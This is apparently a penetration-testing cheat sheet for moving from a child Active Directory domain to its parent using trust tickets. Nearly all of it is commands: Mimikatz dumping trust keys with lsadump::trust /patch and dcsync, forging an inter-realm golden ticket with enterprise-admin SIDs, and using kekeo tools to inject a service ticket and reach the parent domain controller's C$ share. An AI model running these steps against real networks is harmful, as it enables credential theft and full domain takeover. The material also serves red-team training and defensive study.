 # Child to parent - Trust tickets

### **Dump trust keys**

Look for in trust key from child to parent (first command) - This worked best for me! Second command didnt work :( Look for NTLM hash (second command)

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<computername>$"'
```



### **Create an inter-realm TGT**

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<domain> /sid:<sid of current domain> /sids:<sid of enterprise admin groups of the parent domain> /rc4:<trust hash> /service:krbtgt /target:<target domain> /ticket:<path to save ticket>"'
```



### **Create a TGS for a service (kekeo\_old)**

```
./asktgs.exe <kirbi file> CIFS/<forest dc name>
```



### **Use TGS to access the targeted service (may need to run it twice) (kekeo\_old)**

```
./kirbikator.exe lsa .\<kirbi file>
```



### **Check access to the server**

```
ls \\<servername>\c$ 
```

